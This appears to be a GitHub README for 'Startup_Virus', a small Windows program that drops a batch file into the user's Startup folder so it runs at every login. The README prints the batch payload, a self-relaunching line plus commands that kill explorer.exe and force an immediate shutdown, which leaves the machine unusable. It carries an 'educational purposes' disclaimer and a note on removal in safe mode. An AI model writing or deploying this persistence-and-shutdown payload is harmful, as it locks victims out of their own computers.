 # Startup_Virus

**Everything was done purely for educational purposes. The spread of viruses is bad! and illegal!**

Simple virus. It is creating .bat file in %APPDATA%\Roaming\Microsoft\Windows\Start Menu\Programs\Startup.

You can easily edit it. By default, the file contains the following code:       `
   system %0 %0 
   taskkill /F /IM explorer.exe
   shutdown /s /t 1
`.

Then it will shutdown ur computer.

You can defeat this virus by deleting the .bat file in your Startup folder in safe mod.

